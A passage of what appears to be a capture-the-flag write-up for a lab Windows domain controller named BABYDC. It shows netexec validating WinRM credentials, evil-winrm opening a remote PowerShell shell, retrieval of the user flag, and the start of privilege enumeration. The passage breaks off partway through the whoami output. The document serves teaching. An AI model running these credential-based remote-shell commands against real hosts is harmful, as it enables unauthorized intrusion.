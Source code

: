 ```bash
netexec winrm 10.10.111.218 -u 'Caroline.Robinson' -p 'Password123!'
WINRM       10.10.111.218     5985   BABYDC           [*] Windows Server 2022 Build 20348 (name:BABYDC) (domain:baby.vl) 
WINRM       10.10.111.218     5985   BABYDC           [+] baby.vl\Caroline.Robinson:Password123! (Pwn3d!)
```

Nice, we are in luck.  Lets use the tool evil-winrm to get a foothold on the machine:

```bash
evil-winrm -i 10.10.111.218 -u Caroline.Robinson -p Password123!                              
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> 

```

## User

From here we can now head into Carolines Desktop directory and get the user flag:

```powershell
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Desktop> dir


    Directory: C:\Users\Caroline.Robinson\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         6/21/2016   3:36 PM            527 EC2 Feedback.website
-a----         6/21/2016   3:36 PM            554 EC2 Microsoft Windows Guide.website
-a----        11/21/2021   3:24 PM             36 user.txt

```

## Privilege Escalation

Lets see what privileges Caroline has.

```powershell
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Desktop> whoami /all

USER INFORMATION
----------------

User Name              SID
====================== ==============================================
baby\caroline.robinson S-1-5-21-1407081343-4001094062-1444647654-1115


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                            Attributes
```